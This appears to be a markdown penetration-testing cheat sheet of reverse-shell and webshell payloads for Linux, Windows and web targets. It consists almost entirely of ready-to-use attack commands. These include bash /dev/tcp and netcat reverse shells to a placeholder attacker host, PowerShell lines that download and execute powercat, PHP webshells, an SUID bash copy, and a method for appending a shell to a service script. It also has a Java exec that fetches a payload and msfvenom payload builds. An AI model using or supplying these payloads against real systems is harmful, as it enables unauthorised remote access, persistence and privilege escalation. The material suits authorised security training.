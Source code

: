 # Shells

## _Linux_

#### bash reverse

```shell
/bin/bash -c "bash -i >& /dev/tcp/KALI_IP/LPORT 0>&1"
```

#### busybox reverse

```shell
busybox nc KALI_IP 443 -e sh

# https://eins.li/posts/oscp-secret-sauce/
```

#### nc

```shell
/path/nc KALI_IP LPORT -e /bin/bash
```

### .sh script reverse

```shell
# bash
echo "bash -i >& /dev/tcp/KALI_IP/443 0>&" >> /path/to/service.sh
chmod +x /path/to/service.sh

# nc
echo >> reverse.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc KALI_IP 443 >/tmp/f" >> /path/to/service.sh
chmod +x /path/to/service.sh
```

### copy bash w/ suid

```shell
cp /bin/bash /tmp && chmod +s /tmp/bash
```

## _**Windows**_

### powershell encoded

```shell
# 1 KALI
python3 ps_encode.py

# 2 TARGET
powershell.exe -nop -w hidden -enc encoded_payload...
```

### powercat encoded

```shell
# 1 KALI
python3 cat_encode.py

# 2 TARGET
powershell.exe -nop -w hidden -enc encoded_payload...
```

### powercat manually typed

```shell
# 1 payload
IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP/resources/powercat.ps1');powercat -c KALI_IP -p 443 -e powershell

# 2 use as follows
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP/resources/powercat.ps1');powercat -c KALI_IP -p 443 -e powershell"
```

### nc.exe

```shell
C:\PATH\nc.exe KALI_IP LPORT -e powershell
```

## _**Web**_

### php

#### bash reverse

```php
<?php exec("/bin/bash -c bash -i >& /dev/tcp/KALI_IP/443 0>&1"); ?>
```

#### simple webshell

```php
<?php echo system($_GET['cmd']); ?>
<?php echo passthru($_GET['cmd']); ?>
```

#### simple webshell 2

```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
    }
?>
# located at /usr/share/webshells/php/simple-backdoor.php
```

#### sincek reverse

```shell
# https://github.com/ivan-sincek/php-reverse-shell
```

#### wordpress plugin

```shell
# POST
curl -X POST `tip`:`WPORT`/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php --data 'action=exec&cmd=id'

# GET (or use browser)
curl `tip`:`WPORT`/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php?action=exec&cmd=id

# https://github.com/p0dalirius/Wordpress-webshell-plugin
```

#### wordpress plugin 2

```shell
https://github.com/wetw0rk/malicious-wordpress-plugin
```

### asp

#### webshell

```shell
https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/webshell
```

### java

#### runtime exec

```shell
${script:javascript:java.lang.Runtime.getRuntime().exec("wget http://KALI_IP/reverse -O /tmp/reverse")}
```

## _MSFVenom_

Check [Infinite Logins](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)for help with below 4

### windows reverse

```shell
msfvenom -p windows/shell_reverse_tcp lhost=`mip` lport=443 -f exe > reverse.exe
```

### linux reverse

```shell
msfvenom -p linux/x64/shell_reverse_tcp lhost=`mip` lport=443 -f elf > reverse.elf
```

### php reverse

```shell
msfvenom -p php/reverse_php lhost=`mip` lport=443 -f raw > reverse.php
```

### asp reverse

```shell
msfvenom -p windows/shell/reverse_tcp lhost=`mip` lport=443 -f asp > reverse.asp
```

## _**upgrade shell**_

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
^z

stty raw -echo;fg
```
